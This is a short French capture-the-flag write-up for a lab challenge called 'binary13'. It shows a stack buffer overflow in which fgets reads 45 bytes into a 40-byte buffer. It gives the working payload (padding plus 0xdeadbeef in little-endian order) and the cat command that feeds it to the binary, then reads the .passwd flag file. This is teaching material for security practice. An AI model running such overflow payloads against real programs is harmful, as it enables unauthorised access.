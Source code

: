La faille se trouve ici :
```
char buf[40];
fgets(buf,45,stdin);
```

En augmentant progressivement la taille du string passé en stdin (ou bien en automatisant la tâche avec le module metasploit pattern_create) on se rend bien compte que après le 40ème caractère on commence à écrire dans la variable check.

En prenant en compte les inversions des octets (petit boutien) on prépare le payload :
```
echo aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa$(printf '\xef\xbe\xad\xde') > /tmp/payload.txt
```
Enfin, on utilise cat pour injecter le payload et on rajoute le - pour garder la main sur le stdin :
```
cat /tmp/payload.txt - | ./binary13
[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ
[check] 0xdeadbeef
Yeah dude ! You win !
cat .passwd
```
